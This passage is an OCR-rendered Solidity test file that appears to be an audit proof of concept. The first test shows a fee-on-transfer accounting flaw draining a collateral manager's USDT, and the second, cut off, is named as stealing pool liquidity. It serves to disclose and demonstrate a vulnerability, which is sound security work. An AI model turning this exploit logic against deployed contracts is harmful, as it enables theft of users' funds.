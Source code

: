 ```solidity
    // The key here is that now the usdt address has the same storage as before but with a different code (fee-on-transfer code)
    MockERC20FoT upgradedUSDT = new MockERC20FoT(6);
    bytes memory contractCode = address(upgradedUSDT).code;
    vm.etch(address(usdt), contractCode);

    // Save the initial USDT balances
    uint256 userBalanceBefore = usdt.balanceOf(user);
    uint256 managerBalanceBefore = usdt.balanceOf(address(collateralManager));

    console.log("BEFORE THE EXPLOIT: ");
    console.log("===================");
    console.log("Manager USDT Balance: ", managerBalanceBefore / 1e6, "USDT");
    console.log("User USDT Balance:    ", userBalanceBefore / 1e6, "USDT");
    console.log("===================\n\n");

    // Approve USDT and deposit as collateral (75K USDT)
    usdt.approve(address(collateralManager), amountToExploit);
    collateralManager.addCollateral(user, usdt, amountToExploit);

    // Check collateral deposited, the contract acocunts for 75K but has received 74.250K
    uint256 collateral = collateralManager.collateralToUserToAmount(usdt, user);
    uint256 userBalanceAfter = usdt.balanceOf(user);
    uint256 managerBalanceAfter = usdt.balanceOf(address(collateralManager));
    assertEq(collateral, amountToExploit);
    assertEq(userBalanceBefore - amountToExploit, userBalanceAfter);
    assertEq(managerBalanceBefore + amountToExploit - (amountToExploit / 100), managerBalanceAfter);


    // Here the user could get a zero interest flash loan with the collateral deposited (check last test)


    // Now we claim the collateral
    collateralManager.claimCollateral(user, usdt, amountToExploit);

    // Check that collateral has been received
    uint256 managerBalanceFinal = usdt.balanceOf(address(collateralManager));
    uint256 userBalanceFinal = usdt.balanceOf(user);

    // managerBalanceFinal should be the same as managerBalanceBefore, but it's not because the fee
    assertEq(managerBalanceFinal + (amountToExploit / 100), managerBalanceBefore);
    assertEq(userBalanceFinal + (amountToExploit / 100), userBalanceBefore);

    // The logs show the manager balance has decreased from 795 USDT to 45 USDT
    console.log("AFTER THE EXPLOIT: ");
    console.log("===================");
    console.log("Manager USDT Balance: ", managerBalanceFinal / 1e6, "USDT");
    console.log("User USDT Balance:    ", userBalanceFinal / 1e6, "USDT");
    console.log("===================");
}

/**
 * @dev The user deposits 1.5M USDT tokens as liquidity in the USDT pool (it'd be the same in USDC pool) and when withdrawing, it receives more than it should
 * @notice The USDT transfer to deposit it affects the contract instead of the user so when withdrawing is effectively stealing assets. 
 */
function test_stealLiquidityWhenFeeOnTransfer() public {
    // Give 1.5M USDT to our user for the exploit
    uint256 amountToExploit = 1_500_000e6;
    changePrank(usdtWhale);
```